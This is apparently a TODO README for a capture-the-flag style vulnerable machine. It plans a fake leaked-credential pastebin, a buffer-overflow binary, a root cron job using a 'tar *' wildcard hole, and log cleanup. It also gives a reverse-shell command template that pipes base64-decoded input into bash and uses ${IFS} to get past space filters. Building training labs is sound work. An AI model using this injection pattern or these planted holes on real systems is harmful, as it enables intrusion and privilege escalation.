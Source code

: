 # BAU-project
## TODO (Zeyad)
1.Create a pastebin containig fake user and password (breach simulation). [OneRuleToRuleThemAll](https://github.com/NotSoSecure/password_cracking_rules)
2. Create a binary that can be easily reverse engineered to access some functionality with `golang` or `c`
3. Create a binary vulnerable to BoF to get code execution (optional).
4. Create a CronJob from root running a bad script which is used for backup. (tar *)
5. Cron job to clean /var/log/apache2/access.log

### PakageDownloader.c
```bash
# Reverse shell command
echo${IFS}<BASE64-Encoded-Payload>|base64${IFS}-d|bash
```
## Breach similation
```
https://pastebin.com/NBv0Hbg7
```

